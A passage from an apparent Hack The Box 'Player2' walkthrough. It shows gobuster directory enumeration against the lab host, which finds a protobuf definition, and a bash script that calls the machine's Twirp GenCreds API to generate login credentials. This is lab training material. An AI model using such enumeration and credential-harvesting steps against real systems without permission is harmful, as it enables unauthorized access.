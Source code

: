 
+ player2.htb/proto
+ player2.htb/src
+ product.player2.htb/api


```
# gobuster dir -w dirbuster.txt -e -t 64 -x proto -u http://player2.htb/proto/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://player2.htb/proto/
[+] Threads:        64
[+] Wordlist:       dirbuster.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     proto
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2019/12/18 06:11:18 Starting gobuster
===============================================================
http://player2.htb/proto/generated.proto (Status: 200)
Progress: 56604 / 220547 (25.67%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2019/12/18 06:18:49 Finished
===============================================================
```

Woohoo. There's a hit at `player2.htb/proto`!

{% include image.html image_alt="17759be5.png" image_src="/5839e089-8564-49d1-9f19-dbd621b89794/17759be5.png" %}

#### Protobuf vs JSON

For some reason I couldn't get the JSONclient to work with cURL. Good thing there's still ProtobufClient available to use which is Twirp's recommendation by the way. With that, I wrote a simple script to generate credentials based on the service definition above.

<div class="filename"><span>gencreds.sh</span></div>

```bash
#!/bin/bash

HOST=product.player2.htb
PORT=8545
COUNT=$1

echo "count:$COUNT" \
        | protoc --encode twirp.player2.auth.Number generated.proto \
        | curl  -s \
                -XPOST \
                -H "Content-Type: application/protobuf" \
                --data-binary @- \
                http://$HOST:$PORT/twirp/twirp.player2.auth.Auth/GenCreds \
        | protoc --decode twirp.player2.auth.Creds generated.proto

echo
```


[1]: https://www.hackthebox.eu/home/machines/profile/221
[2]: https://www.hackthebox.eu/home/users/profile/13531
[3]: https://www.hackthebox.eu/home/users/profile/64903
[4]: https://www.hackthebox.eu/